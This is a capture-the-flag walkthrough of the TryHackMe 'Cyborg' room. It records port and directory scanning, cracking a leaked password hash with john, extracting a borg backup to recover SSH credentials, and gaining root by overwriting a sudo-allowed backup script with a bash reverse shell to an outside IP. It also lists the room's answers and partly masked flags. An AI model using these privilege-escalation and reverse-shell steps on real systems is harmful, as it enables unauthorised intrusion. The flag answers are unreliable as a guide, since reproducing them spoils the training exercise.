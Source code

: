 #############################
		 TRY HACK ME
		Room= CYBORG	
	 IP= 10.10.170.174
#############################



## 1) Ran nmap, results in the nmap directory....

## 2) Ran Gobuster, results in the gobuster directory


but the suspicious thing is in the gobuster's result
and that is the admin & etc page more suspicious is "etc".

http://IP/etc/squid/

here i got two files -->
	1) passwd
	2) squid.conf

then i copied the passwd form the passwd page and stored it in hash.txt file then "john" that by the command -->

##
	john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

	passwd = squ######

##

and the other file (squid.conf) is not so interesting.
so i moved toward the admin page....
and hover the mouse over the Archive option and clicked on the Download button

and downloaded the archve.tar file, and got a home folder
in that home folder i navigate to the home/field/dev/final_archive

and got a readme file... it's about "borg" documentation 

and then Using borg to extract with the password we found assuming this is a backup of the music_archive which was mentioned in the admin page (http://IP/admin/admin.html) message by the command -->

	borg extract `pwd`::music_archive 

then got another home folder,, but now in this time i got the password of the user alex inside the (home/alex/Documents/note.txt)

## 		S3c#######

## then i used ssh to login as alex via ssh by the command -->
		
		ssh alex@IP 
	passwd = S3c#######




## USER FLAG!!!____

and the simply searched for the user flag by this command -->

	find / -name "user*.txt" -type f 2>/dev/null

* Flags and QNAs are bellow....

## ROOT FLAG!!!____

to get root i searched for what permission does the user (alex) have.

by this command -->

	 sudo -l
			Matching Defaults entries for alex on ubuntu:
    			env_reset, mail_badpass,
    			secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/

			User alex may run the following commands on ubuntu:
    			(ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh

and the most lovely result "backup.sh"

since this is running by sudo that means this file "backup.sh" is being ran by root and being a shell script we can make it react as a reverse-shell
but to do that i checked that what permissions does the file have by the command -->

	ls -la /etc/mp3backups/backup.sh

and then i chenged the permission into writable by the command -->
	chmod +w /etc/mp3backups/backup.sh


and then as usual i edit this file into this -->

	bash -i >& /dev/tcp/10.18.102.171/8080 0>&1

and saved the file.....

then i started a listener in my machine by the command -->
	
	nc -lvnp 8000 

and then i run the backup.sh file in the victim machine by the command -->

sudo /etc/mp3backups/backup.sh


and i got root.......

and simplie i searched for the root flag by this command -->
	
	find / -name "root*.txt" -type f 2>/dev/null


----------------------------------------------------------------------
							
						QUESTIONS & ANSWARES 
----------------------------------------------------------------------

## Scan the machine, how many ports are open? 

`````
2
`````

## What service is running on port 22?

`````
SSH
`````

## What service is running on port 80?

`````
HTTP
`````

## What is the user.txt flag?

`````
flag{1_#############_th3_arch1v3s_saf3}
`````

## What is the root.txt flag?

`````
flag{Than5s_#############0p£_y0u_enJ053d}
`````

